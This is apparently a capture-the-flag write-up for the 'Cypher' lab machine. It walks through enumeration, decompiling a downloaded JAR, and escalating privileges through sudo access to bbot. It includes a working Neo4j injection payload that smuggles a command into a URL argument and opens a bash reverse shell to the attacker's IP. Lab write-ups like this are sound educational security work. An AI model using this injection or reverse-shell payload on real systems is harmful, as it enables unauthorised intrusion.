## Machine Information

|                      |             |
| -------------------- | ----------- |
| **Name**             | CYPHER      |
| **Operating System** | Linux       |
| **Difficulty**       | Medium      |
| **IP Address**       | 10.10.11.57 |

## Ports & Services Scanning

Command used: `sudo nmap 10.10.11.57 -sC -sV -v -oN enum.nmap`


Open ports: 22, 80
_Cannot use port 22 unless credentials are known_

## Port 80 Web Enumeration

_Add cypher.htb in /etc/hosts_



### Vulnerablity Scanning using _Nuclei_

Used command `nuclei -u http://cypher.htb -headless`, no usefull result.

### Directory Fuzzing using _ffuf_

Command used: `ffuf -w ~/Downloads/raft-small-words.txt -u 'http://cypher.htb/FUZZ' -c`



These is a new directory `testing`, tried accessing it, got a `jar` file, downloaded it.



> Note:
> JAR stands for **Java ARchive**. It's a file format based on the popular ZIP file format and is used for aggregating many files into one.

### Extracting the jar file

Command used: `unzip custom-apoc-extension-1.0-SNAPSHOT.jar -d custom_apoc_ext`



> Neo4j is a native graph database

The `.class` files contains **Java Bytecode** after compiling `.java` files. These are non-human readable files. So, I need to decompile it to `.java` again to read the content of the file.

After searching the internet, I got a tool named `jd-gui` that can decompile `.class` files.

**Download** the tool from **[here](http://java-decompiler.github.io/)**.  
**Install** it in the linux machine (debian) using the command:`sudo dpkg -i ~/Downloads/jd-gui-1.6.6.deb`

Open the tool and navigate to the downloaded `.jar` directory.



The `CustomFunctions` class `getUrlStatusCode(url)` function executes O.S command, so it can be vulnerable to **Command Injection**
Also, the application is using `Neo4j` database for its authentication in `/api/auth` route. So, I can also be vulnerable to **Injection Attack** through which **Command Injection** can be achieved.
I never heard about graph database existence and the name _Neo4j_ so after going through the **docs** it got little knowledge but not enough to try injections.

## Neo4j Injection + Command Injection

I queried _chatGPT_ using its search option to find me basic injection commands for Neo4j. Run the injecton to cause error, if any. The error revealed the query used.




Finally, `admin' return h.value as a union CALL custom.getUrlStatusCode(\"http://google.com; bash -c 'bash -i >& /dev/tcp/10.10.16.98/9999 0>&1'\") YIELD statusCode AS a RETURN a;//` worked and I got the reverse shell.



User `neo4j` cannot reat the user flag, so need to escalate the privilage.



## Privilege Escalation

Downloaded the `linpeas.sh` script from my machine for **information gathering**




Did not got much useful information. So, locking back, I found my mistake. As, I could not read `user.txt`, I moved from that directory and did not checked other files, if they are readable.

There are readable files in that user, and got a credential. Tried to `ssh` into that user using the crdential and it **worked**.



> User Flag retrived.

## Escalate to root user to get the root flag

The user can execute `bbot`executable as root without password.



Tried various ways to find flaws in the script, used linpeas.sh to find for more information, nothing worked.
Again, looked back, I overlooked and did not try executing the executable.

There is `-t` flag that is used to specify target, which can be a file as well.



I know the location of `root.txt`, so passed it to it. It did read the file but this is not the flag.



There is a `-o` flag to write the output into a file, leveraging it.



> Root Flag retrived
